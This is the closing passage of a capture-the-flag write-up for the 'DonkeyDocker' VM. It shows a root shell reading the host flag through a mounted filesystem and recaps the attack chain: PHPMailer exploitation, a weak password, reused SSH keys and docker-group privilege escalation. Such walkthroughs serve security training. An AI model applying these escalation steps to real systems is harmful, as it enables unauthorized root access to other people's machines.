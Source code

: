 And now we can run a root shell inside the container and read the host flag:

```
donkeydocker:~$ docker exec -i -t 103cd9c625b0 /bin/bash
root@103cd9c625b0:/# ls /host/root
donkeydocker  flag.txt
root@103cd9c625b0:/# cat /host/root/flag.txt
YES!! You did it :-). Congratulations!

I hope you enjoyed this CTF VM.

Drop me a line on twitter @dhn_, or via email dhn@zer0-day.pw

Here is your flag: flag2{60d14feef575bacf5fd8eb06ec7cd8e7}
```

Nice Docker twist on this VM! To recap the steps:

- Web directory enumeration revealed a vulnerable PHPMailer installation that gave a shell as the www-data
- the shell was inside a docker container. A script placed in the root filesystem revealed a smith user that had the username as password
- the smith user had the SSH keys for a user orwell on the host and we were able to SSH directly as that user with the private key
- user orwell was member of the docker group and it was possible to escalate privileges by mounting the root filesystem inside a container 

``` 
______________________________________
/ Your motives for doing whatever good \
| deed you may have in mind will be    |
\ misinterpreted by somebody.          /
 --------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
